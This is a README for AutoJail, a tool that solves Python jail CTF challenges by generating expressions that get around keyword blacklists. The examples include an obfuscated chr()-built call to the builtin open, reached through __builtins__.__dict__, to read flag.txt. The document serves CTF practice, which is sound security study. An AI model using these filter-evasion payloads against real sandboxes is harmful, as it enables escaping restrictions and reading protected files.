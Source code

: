 # AutoJail Python

AutoJail is a tool for automatically solving python jail CTF challenges. This program takes in a blacklist/whitelist and generates valid python that evaluetes to what you want to achieve without using any blacklisted keywords or only using the whitelisted keywords.

⚠️ This project is still in development ⚠️

## Getting started

```
git clone git@github.com:martcl/autojail.git
cd autojail/autojail
python main.py -h
```

## Examples

**Open a file with a blacklist**
```
python main.py -o flag.txt -b open "'" '"'

print(*__builtins__.__dict__[chr(111)+chr(112)+chr(101)+chr(110)](chr(102)+chr(108)+chr(97)+chr(103)+chr(46)+chr(116)+chr(120)+chr(116)))
```

**Generate strings**
```
python main.py --string HEI --blacklist H c ᶜ 0 7

'%\143'%(int(repr(int(not())+(int(not())+int(not()))+(int(not())+int(not()))**(int(not())+int(not())))+repr(2)))+'%\143'%(69)+'%\143'%(int(repr(int(not())+(int(not())+int(not()))+(int(not())+int(not()))**(int(not())+int(not())))+repr(3)))
```

**Create any number using whitelist**
```
python main.py -n 22 -w 0 1 b

0b10110
```


## Usage
```
usage: main.py [-h] [-b [BLACKLIST ...]] [-w [WHITELIST ...]] [-s STRING]
               [-n NUMBER] [-o FILE_PATH]

Autojail is a tool for automatically solving python jail CTF challenges.

options:
  -h, --help            show this help message and exit
  -b [BLACKLIST ...], --blacklist [BLACKLIST ...]
                        A list of blacklisted kwds not allowed.
  -w [WHITELIST ...], --whitelist [WHITELIST ...]
                        A list of whitelisted kwds allowd to use.
  -s STRING, --string STRING
                        Create a string.
  -n NUMBER, --number NUMBER
                        Create a number.
  -o FILE_PATH, --open FILE_PATH
                        Open a file and read it.

```
